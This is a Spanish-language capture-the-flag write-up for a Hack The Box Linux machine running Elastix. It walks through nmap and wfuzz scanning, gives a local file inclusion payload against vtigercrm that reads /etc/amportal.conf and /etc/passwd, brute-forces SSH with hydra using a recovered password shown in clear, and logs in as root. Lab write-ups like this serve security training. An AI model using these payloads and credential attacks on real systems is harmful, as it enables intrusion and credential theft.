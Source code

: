 ![Image text]()

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text]()

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text]()

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text]()

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

Sacamos el listado de usuarios y dejamos solo los que tengan bash



lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.

    hydra 10.10.10.7 ssh -L user.txt -p jEhdIekWmdjE -f -vv

Accemos con root por ssh

    ssh -o KexAlgorithms=diffie-hellman-group1-sha1 -o Ciphers=aes256-cbc root@10.10.10.7

conseguimos la flag de user.txt

conseguimos la flag de root.txt




